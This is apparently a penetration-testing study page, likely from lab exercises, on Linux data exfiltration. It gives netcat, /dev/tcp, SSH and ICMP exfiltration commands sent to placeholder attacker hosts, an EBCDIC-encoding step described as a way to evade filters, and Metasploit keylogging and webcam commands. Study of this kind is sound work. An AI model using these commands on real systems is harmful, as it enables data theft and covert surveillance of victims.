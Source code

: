```yaml
---
icon: linux
---
```


# Linux

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><img src="../../../../.gitbook/assets/0c3438995ccff35a5589b9abd3703b14.png" alt=""><figcaption></figcaption></figure>

C2 Communications

<figure><img src="../../../../.gitbook/assets/49ad248f2506a5a749dbb70732c32072.png" alt=""><figcaption></figcaption></figure>

Tunneling

<figure><img src="../../../../.gitbook/assets/b4c99b2aba13eac24379fee2d20ffbf6.png" alt=""><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
wget http://attackeraddress/filename   
```

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## TCP Exfiltration

Attacker Listener

<pre><code><strong>nc -lvnp -port- >  "filename we can set "
</strong></code></pre>

Sending to listener

```bash
tar zcf - directoryName | base 64 | dd conv=ebcdic> /dev/tcp/AttackerIP/Port
```

1️⃣ `tar zcf - directoryName`

* `tar` = archive utility.
* `z` = compress using gzip.
* `c` = create a new archive.
* `f -` = output to **stdout** (instead of a file).
* `directoryName` = the folder being archived.

**Effect:** This creates a compressed archive of `directoryName` and sends it **to stdout**.

***

2️⃣ `| base64`

* `base64` = encodes the binary tar.gz data into **ASCII text**.
* Why? Because sending raw binary over `/dev/tcp` might break if the network path expects text, and ASCII is safer.

***

3️⃣ `| dd conv=ebcdic`

* `dd` = low-level copy/convert tool.
* `conv=ebcdic` = converts the ASCII Base64 output to **EBCDIC encoding**.
* EBCDIC is an old IBM character encoding.
* Often seen in malware/obfuscation to bypass filters or legacy systems.

***

4️⃣ `> /dev/tcp/AttackerIP/Port`

* Bash allows redirecting output to **special TCP device**:
  * `/dev/tcp/IP/PORT` opens a TCP connection to that host and port.
* `>` = send all stdout (the EBCDIC-encoded Base64 archive) **directly to the attacker**.

{% hint style="warning" %}
Essenitly we zip the file we want to transfer.The data we transfer must be the directory
{% endhint %}

After recivied - Decode the data

```
dd conv=ascii if=FileName | base64 -d > FileName
```

Unzip

```bash
tar xvf fileName.tar
```

Examples

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## ICMP Exfiltration

1\) Attacker setup  to recive packets

```
msf auxiliary icmp_exfil
```

2\) Upload nping binaries to victim

```
/usr/bin/nping
```

python server,wget command

next give perms&#x20;

3\) On victim machine sending data to icmp\_exfil

<pre class="language-bash"><code class="lang-bash"><strong>./nping --icmp -c 1 attackerip --data-string "filename.txt"
</strong></code></pre>

`-c` → how many ICMP packets (or TCP/UDP depending on mode) to send.Just how many times we want to send the request default is 10

4\) Tell metasploit to stop reciveing files

```
nping --icmp -c 1 attackerip --data-string "EOF"
```

## &#x20;Icmpdoor

{% embed url="https://github.com/krabelize/icmpdoor" %}

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
